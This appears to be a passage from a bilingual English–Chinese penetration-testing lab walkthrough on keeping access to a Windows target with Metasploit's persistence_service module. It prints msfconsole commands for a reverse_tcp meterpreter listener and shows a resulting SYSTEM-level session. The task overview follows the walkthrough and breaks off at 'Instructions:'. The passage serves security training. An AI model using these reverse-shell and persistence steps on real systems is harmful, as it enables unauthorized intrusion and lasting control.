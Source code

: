 That’s one of the great things with a persistent service is it provides you with the highest level of privileges available on a Windows system not tied down to a particular user account. 

Remember the persistent services running on the target system. After every five seconds, it’s going to execute the payload that will then connect back to the listener. 

```
msfconsole
use multi/handler
```

We then set the payload that we specified when we were using the persistence module, which by default was the 32-bit meterpreter. 

```
set payload windows/meterpreter/reverse_tcp
show options
set LHOST eth1
set LPORT 4433
exploit
```

```
meterpreter > sysinfo
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
exit
```

```
run
meterpreter > 
```

## Maintaining Access: Persistence Service维护访问：持久性服务

### Overview 概述

A Kali GUI machine and a target machine running a vulnerable server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).

为您提供了一台 Kali GUI 机器和一台运行易受攻击服务器的目标机器。目标计算机的 IP 地址在名为 target 的文本文件中提供，该文件放置在 Kali 机器的桌面 （/root/Desktop/target） 上。

Your task is to fingerprint the application using the tools available on the Kali machine and exploit the application using the appropriate Metasploit module.

您的任务是使用 Kali 机器上可用的工具对应用程序进行指纹识别，并使用适当的 Metasploit 模块利用应用程序。

Then, use the exploit/windows/local/persistence_service local exploit module to maintain access.

然后，使用漏洞利用/窗口/本地/persistence_service本地漏洞利用模块来维护访问。

Objective: Exploit the application and maintain access using the Metasploit module.

目标：利用应用程序并使用Metasploit模块保持访问。

Instructions:  指示：
